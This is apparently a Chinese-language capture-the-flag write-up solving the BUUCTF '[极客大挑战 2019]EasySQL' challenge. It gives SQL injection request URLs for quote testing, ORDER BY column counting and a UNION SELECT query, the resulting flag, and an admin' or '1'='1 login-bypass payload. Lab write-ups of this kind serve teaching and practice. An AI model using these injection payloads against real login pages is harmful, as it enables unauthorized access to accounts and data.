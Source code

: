 # [[极客大挑战 2019]EasySQL](https://buuoj.cn/challenges)

### 

### 0x00判断注入点



发现通过修改URL可以影响到SQL语句的判断



在`password`参数附近存在注入



```sql
http://xxx.cn:81/check.php?username=wda&password=
```



### 0x01判断闭合符号



在`username=`处加闭合符“	’  ”进行测试



```sql
http://xxx.cn:81/check.php?username=‘admin&password=1111
```



测试结果



```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin' and password='1111'' at line 1
```



发现闭合处在`password=`附近



0x02使用order by子句 判断字段数



```sql
http://xxx.cn:81/check.php?username=admin&password='order by 1,2,3 %23
```



判断出此页面的列为3个



### 0x03使用联合查询 union select 



```sql
http://xxx.cn:81/check.php?username=admin&password='union select 1,2,3 %23
```





**直接查出答案**



```
flag{69d90fcc-0fc1-447d-bbb2-6cce2e30bdc1}
```



### 0x04补充说明



admin 为管理员用户



**万能密码，闭合双引号?username=admin&password=admin' or '1'='1**



作者

SihUi
